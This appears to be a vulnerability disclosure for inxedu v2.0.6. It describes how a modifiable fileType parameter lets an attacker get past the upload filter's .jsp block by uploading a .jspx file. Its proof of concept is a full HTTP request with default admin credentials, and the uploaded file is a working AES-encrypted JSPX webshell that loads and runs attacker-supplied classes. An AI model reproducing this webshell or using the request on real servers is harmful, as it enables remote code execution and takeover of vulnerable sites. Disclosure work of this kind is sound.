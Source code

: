 inxedu v2.0.6 has a vulnerability that can lead to upload malicious files.

Build the source code locally by downloading https://gitee.com/inxeduopen/inxedu



## code discovery

The vulnerable code location is com.inxedu.os.common.controller.ImageUploadController#gok4 

\src\main\webapp\WEB-INF\lib\inxedu-jar.jar\com\inxedu\os\common\controller\ImageUploadController.class

This code is decompiled from the project jar package（**inxedu-jar.jar**）

![image-20240515220345844](images\image-20240515220345844.png)

Line 67 check the extention of the file uploaded and restricts the upload of files ending in **jsp** ,while we can control the value of fileType by changing the parameter value of fileType, and uploading files ending with jspx bypasses the restriction.





The vulnerability exists: http://127.0.0.1:8080/admin/main

The username and password : admin/111111

![image-20240515213221111](images\image-20240515213221111.png)

![image-20240515213231936](images\image-20240515213231936.png)

![image-20240515213240060](images\image-20240515213240060.png)



## POC

```
POST /image/gok4?&param=image&fileType=jpg,gif,png,jpeg,jspx&pressText=undefined HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1193235141139104622277612664
Content-Length: 883
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/admin/website/doAddImages
Cookie: JSESSIONID=10EC81B49E27265587A446F32099DBE3; inxedulogin_sys_user_=inxedulogin_sys_user_1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------1193235141139104622277612664
Content-Disposition: form-data; name="uploadfile"; filename="1.jspx"
Content-Type: image/jpeg

<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2"><jsp:directive.page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"/><jsp:declaration> class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}</jsp:declaration><jsp:scriptlet>String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);</jsp:scriptlet></jsp:root>
-----------------------------1193235141139104622277612664--
```

![image-20240515214037538](images\image-20240515214037538.png)

We can upload a jspx file,and change the value of fileType to "jpg,gif,png,jpeg,jspx",in which we add "jspx" type.

And the response returns the jspx file path.
Then we can visit the jspx file and run the Webshell tools

![image-20240515215346349](images\image-20240515215346349.png)

![image-20240515215446474](images\image-20240515215446474.png)

